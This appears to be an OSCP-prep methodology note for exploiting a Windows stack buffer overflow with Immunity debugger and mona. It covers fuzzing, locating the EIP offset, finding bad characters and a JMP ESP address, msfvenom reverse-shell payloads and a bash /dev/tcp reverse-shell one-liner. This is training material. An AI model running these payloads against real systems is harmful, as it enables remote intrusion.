 # methodology

**NOTE: for OSCP prep, you can skip the `METHOD_1: SPIKING` section**

1. Run Immunity debugger as administrator
2. Attach the vulnerable service to Immunity debugger
3. Configure Mona working folder using `!mona config -set workingfolder c:\kashz`

## METHOD 1: Spiking (finding the crash)

* [https://www.kali.org/tools/spike/](https://www.kali.org/tools/spike/)
* [https://resources.infosecinstitute.com/topic/intro-to-fuzzing/](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/)

**NOTE:** there could be multiple buffers in the vulnerable service, we need to confirm which buffer is vulnerable.

* `./generic_send_tcp IP PORT SPIKE_SCRIPT SKIPVAR SKIPSTR`
    * use `SKIPVAR=0 SKIPSTR=0` to fuzz from beginning.

### file: spike_script_example.spk

```bash
s_readline();
s_string("to-send-something? ");
s_string_variable("0");
```

## METHOD 2: Spiking (finding the crash)

**NOTE:** you can modify the `fuzzer.py` to send a specific number of bytes and confirm crash.

1. Run `fuzzer.py` and note the crash byte number

## Finding OFFSET and EIP

1. Generate pattern 400 bytes more than crash using msf: `msf-pattern_create -l <number>`
2. set `PAYLOAD = <generated-alue>`
3. Run `exploit.py` and find offset
    1. Using mona: `!mona findmsp -distance <EIP>`. Should show in log windows
       as `EIP contains normal pattern : 0x6f43396e (offset 1978)`
    2. [OR] using msf: `msf-pattern_offset -l <number> -q <EIP>`
4. set `OFFSET = value`, set `PAYLOAD = ""`, set `RETURN = iiii` value of 0x69696969.
5. Run `exploit.py`
6. Program (should) crash with EIP = 69696969

## Finding BadChars using !mona

1. Generate byte-array using mona excluding the `\x00` null byte using `!mona bytearray -cpb "\x00"`
2. set `PAYLOAD = ( generated-byte-array )`
3. Run `exploit.py`
4. Note ESP and find barChar using `!mona compare -f C:\kashz\bytearray.bin -a <ESP_address>`
5. Remove 1st badChar from mona byte-array and generate new `!mona bytearray -cpb "\x00\xXX"`
6. Remove the badChar from `PAYLOAD` in `exploit.py`
7. Continue steps 3-6 until mona memory corruption log output says `STATUS = UNMODIFIED`

## Finding JMP using !mona

Note: **ALL badChars** are needed to find the JMP instruction.

1. Locate all JMP ESP using `!mona jmp -r esp -cpb "\x00\xXX"`
2. Select the one, for which ASLR and other security protections are FALSE.
3. Windows requires little endian style. So,
    1. if JMP instruction is  `0x12345678`.
    2. Take 2 letter from right-to-left and form return address
    3. return address is `\x78\x56\x34\x12`
    4. set `RETN = \x78\x56\x34\x12` in `exploit.py`

## Generate msfvenom Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "badChars" -f c
msfvenom -p linux/x86/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "badChars" -f c

# windows under linux (wine)
bash -i >& /dev/tcp/IP/PORT 0>&1
```

set `PAYLOAD = ( payload )`

## Prepend NOPs (\x90)

**NOTE: try `32` if `16` does not work.**

Usually an encoder will be used to generate the msfvenom payload which requires memory space to unpack.
set `PADDING = "\x90" * 16` in `exploit.py`

# Manual Process

## Finding BadChars manually

If by any chance, mona is adding new badChars after every removal of possible badChar, time to do it manually. Follow
the same process but instead of mona to check for badChar use the following method.

1. (top-menu option) View > CPU window > (top right register pane) right-click ESP > follow dump
2. (bottom left hexdump pane) same CPU windows - see all bad chars in line
3. read thoroughly and check if all byte-array-chars are in order.
    1. If any char is skipped or missing - it is a badChar
    2. If byte-array-chars are missing after a specific char - that is a badChar
    3. Remove one char at a time until you reach the last \0xff.

## Finding JMP manually

Note: **ALL badChars** are needed to find the JMP instruction.

1. view > CPU window
2. (top left pane) right click > Search for > All Commands in all modules > JMP ESP > search
3. Choose JMP Address with Green color and module name (as the file running)
4. Follow the above process to create little endian style return address

**[OR]**

1. use `!mona modules`.
    1. Find a module that is being loaded with protection settings as `False.`
    2. use `!mona find -s "\xff\xe4" -m MODULE_NAME`
        1. **JMP ESP == FFE4 (in assembly)**